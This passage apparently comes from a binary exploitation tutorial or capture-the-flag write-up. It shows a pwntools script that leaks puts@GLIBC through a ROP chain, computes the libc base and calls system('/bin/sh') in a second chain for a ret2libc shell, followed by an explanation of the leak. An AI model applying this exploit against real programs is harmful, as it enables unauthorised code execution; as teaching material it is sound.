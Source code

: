 ```python
print(f'{hex(ret)=}')

rop.puts(exe.got['puts'])
rop.call(exe.symbols['main'])
log.info("Stage 1 ROP Chain:\n" + rop.dump())

payload = offset + rop.chain()
p.sendline(payload)

leak = p.recv().split(b'\n')[1]
leaked_puts = u64(leak.ljust(8, b"\x00"))

log.success("Leaked puts@GLIBC: " + hex(leaked_puts))

# gdb.attach(p)
# pause()

###################
#### ret2libc #####
###################

libc_base = leaked_puts - libc.symbols['puts']
libc.address = libc_base
rop2 = ROP(libc)
ret = rop2.find_gadget(["ret"])[0]
rop2.system(next(libc.search(b'/bin/sh\x00')))
log.info("Stage 2 ROP Chain:\n" + rop2.dump())

payload = offset + p64(ret) + rop2.chain()

# gdb.attach(p)
# pause()

p.sendline(payload)

p.interactive()
```

### Leaked Address Explanation

At first glance, the last few lines can look intimidating and even confusing.

Our `leak` variable is obtained after our buffer overflow of 56 `A`'s in which we will immediately call the ROP gadget, `pop rdi; ret` to pop the address of `puts()` into the `RDI` register and write the result to `STDOUT`.

Reminder, we need to <mark style="color:yellow;">subtract the offset of the same function in</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`libc`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">which we obtained above and we will be able to find the current base address of the loaded</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`libc`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">library</mark>.
